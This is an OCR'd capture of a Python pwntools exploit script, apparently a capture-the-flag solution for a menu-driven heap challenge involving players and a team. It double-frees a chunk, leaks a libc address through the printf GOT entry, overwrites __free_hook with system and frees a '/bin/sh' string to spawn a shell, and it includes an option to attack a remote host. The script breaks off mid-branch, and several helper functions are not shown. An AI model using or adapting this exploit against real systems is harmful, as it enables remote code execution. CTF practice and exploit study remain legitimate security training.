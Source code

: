 ```python

def viewplayer(pid):
	sla("0: Exit", "4")
	sla("Enter player id (1-4) ", str(pid))

def viewteam():
	sla("0: Exit", "5")

def tohex(val, nbits):
  return hex((val + (1 << nbits)) % (1 << nbits))

def exploit(p):
	print_menu = 0x00400827
	printf_got = elf.got['printf']
	data  = elf.get_section_by_name(".data").header.sh_addr

	add(1, "", 1, 2, 3, 4, "")
	add(2, "", 1, 2, 3, 4, "")
	remove(1)
	remove(1)
	viewteam()

	ru('reversing and exploitation: ')
	lo = int(p.recvline().strip())
	lo = str(tohex(lo, 32))[2:]
	ru("crypto: ")
	hi = str(hex(int(p.recvline().strip())))
	leak = int(hi + lo, 16)

	payload = "\x90"*264 + p64(0x61) + p32(2)*4 + p64(printf_got)

	edit(1, "", 1, 1, 1, 1, payload)
	viewplayer(2)
	ru("Extra note/comment: ")

	printf = u64(r(8))
	base = printf - libc.symbols['printf']
	free_hook = base + libc.symbols['__free_hook']
	system = base + libc.symbols['system']
	
	payload = "\x90"*264 + p64(0x61) + p32(2)*4 + p64(free_hook)
	edit(1, "", 1, 1, 1, 1, payload)
	edit(2, "", 2, 2, 2, 2, p64(system))

	payload = "\x90"*264 + p64(0x61) + p32(2)*4 + p64(leak)
	edit(1, "", 1, 1, 1, 1, payload)
	edit(2, "", 2, 2, 2, 2, p64(0x0068732f6e69622f))
	remove(1)
	
	p.interactive()

if __name__ == "__main__":
    elf = context.binary = ELF(config["elf"])

    if "libc" in config.keys() and config["libc"]:
        libc = ELF(config["libc"])

    if sys.argv[-1] == "remote":
        p = remote(config["HOST"], config["PORT"])
    else:
        if "libc" in dir(): 
            p = process([config["ld"], config["elf"]], env={"LD_PRELOAD" : config["libc"]})
        else: 
```